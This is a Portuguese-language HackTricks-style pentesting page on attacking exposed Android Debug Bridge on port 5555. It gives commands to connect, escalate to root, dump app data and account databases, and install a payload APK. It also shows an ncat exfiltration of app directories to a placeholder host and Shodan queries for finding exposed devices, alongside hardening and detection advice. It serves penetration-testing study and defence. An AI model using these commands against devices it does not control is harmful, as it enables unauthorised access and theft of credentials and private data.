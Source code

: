 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Informações Básicas

Do [documentos](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) é uma ferramenta de linha de comando para se comunicar com dispositivos e emuladores baseados em Android. As ações típicas incluem instalar pacotes, depurar e obter um shell Unix interativo no dispositivo.

- Porta TCP padrão histórica: 5555 (modo clássico "adb tcpip").
- A depuração sem fio moderna (Android 11+) usa emparelhamento TLS e descoberta de serviço mDNS. A porta de conexão é dinâmica e descoberta via mDNS; pode não ser 5555. O emparelhamento é feito com adb pair host:port seguido de adb connect. Veja as notas abaixo para implicações ofensivas.

Exemplo de impressão digital nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Conectar

Se você encontrar o ADB exposto e acessível, tente se conectar e enumerar rapidamente:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Se o dispositivo impõe autenticação ADB (ro.adb.secure=1), você precisará ser pré-autorizado (autenticação USB RSA) ou usar o emparelhamento de depuração sem fio do Android 11+ (que requer um código de uso único exibido no dispositivo).
- Algumas imagens de fornecedores, builds de engenharia/userdebug, emuladores, TVs, STBs e kits de desenvolvimento expõem adbd sem autenticação ou com adbd rodando como root. Nesses casos, você normalmente cairá diretamente em um shell ou shell root.

Para uma referência geral de comandos ADB, veja:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Rápida Pós-Exploração

Uma vez que você tenha o shell, valide privilégios e contexto SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerar e capturar dados

- Liste aplicativos de terceiros e caminhos:
```bash
pm list packages -3
pm path <pkg>
```
- Se você tiver root (adb root ou su funciona), você pode acessar /data diretamente. Se não, prefira run-as para aplicativos depuráveis:
```bash
# Sem root, para um aplicativo depurável
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Com root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Artefatos de sistema úteis (root necessário):
- /data/system/users/0/accounts.db e dados relacionados ao AccountManager
- /data/misc/wifi/ (configurações/chaves de rede em versões mais antigas)
- DBs SQLite específicos do aplicativo e shared_prefs em /data/data/<pkg>

Você pode usar isso para recuperar informações sensíveis (por exemplo, segredos do aplicativo). Para notas sobre considerações de dados do Chrome, veja a questão referenciada [aqui](https://github.com/carlospolop/hacktricks/issues/274).

### Execução de código e entrega de payload

- Instale e conceda permissões de execução automaticamente:
```bash
adb install -r -g payload.apk         # -g concede todas as permissões de execução declaradas no manifesto
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Inicie atividades/serviços/transmissões diretamente:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Encaminhamento de porta e pivotagem

Mesmo sem root, adb pode encaminhar portas locais para portas do dispositivo e vice-versa. Isso é útil para acessar serviços vinculados localmente no dispositivo ou para expor serviços do atacante ao dispositivo.

- Encaminhar host->dispositivo (acessar um serviço local do dispositivo a partir do seu host):
```bash
adb forward tcp:2222 tcp:22       # Se o dispositivo executar SSH (por exemplo, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Expor o servidor de depuração local do aplicativo
```
- Reverso dispositivo->host (deixar o dispositivo acessar um serviço no seu host):
```bash
adb reverse tcp:1080 tcp:1080     # Aplicativos do dispositivo agora podem acessar host:1080 como 127.0.0.1:1080
```
- Exfiltração de arquivos sobre sockets (sem gravações no sdcard):
```bash
# No host: escutar
ncat -lvp 9000 > dump.tar
# No dispositivo: enviar diretório como tar (root ou run-as conforme aplicável)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Depuração Sem Fio (Android 11+)

O Android moderno implementa depuração sem fio protegida por TLS com emparelhamento do lado do dispositivo e descoberta mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notas
- As portas são dinâmicas; não assuma 5555. Os nomes de serviços mDNS parecem com:
- _adb-tls-pairing._tcp (pareamento)
- _adb-tls-connect._tcp (conexão pareada)
- _adb._tcp (legado/simples)
- Se o mDNS estiver filtrado, a habilitação clássica assistida por USB ainda pode funcionar em algumas versões: `adb tcpip 5555` então `adb connect <ip>:5555` (até reiniciar).

Implicações ofensivas: se você puder interagir com a interface do dispositivo (por exemplo, acesso físico ou configuração incorreta de MDM móvel) para habilitar a depuração sem fio e visualizar o código de pareamento, você pode estabelecer um canal ADB pareado de longa duração sem um cabo. Alguns OEMs expõem ADB sobre TCP em imagens de engenharia/desenvolvimento sem pareamento—sempre verifique.

## Fortalecimento / Detecção

Os defensores devem assumir que qualquer adbd (TCP) acessível é um risco crítico.

- Desative o ADB e a depuração sem fio quando não forem necessários. Revogue as autorizações de depuração USB nas opções de desenvolvedor.
- Certifique-se de que a política de rede bloqueie TCP/5555 de entrada e a descoberta ADB baseada em mDNS em segmentos não confiáveis.
- Em dispositivos sob seu controle:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # desabilitar escuta TCP (ou use: adb usb)
stop adbd; start adbd             # reiniciar daemon
```
- Monitore registros mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` em redes corporativas e alertas para ouvintes 5555 inesperados.
- Faça um inventário de versões inseguras: `getprop ro.debuggable`, `ro.build.type`, e `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referências

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
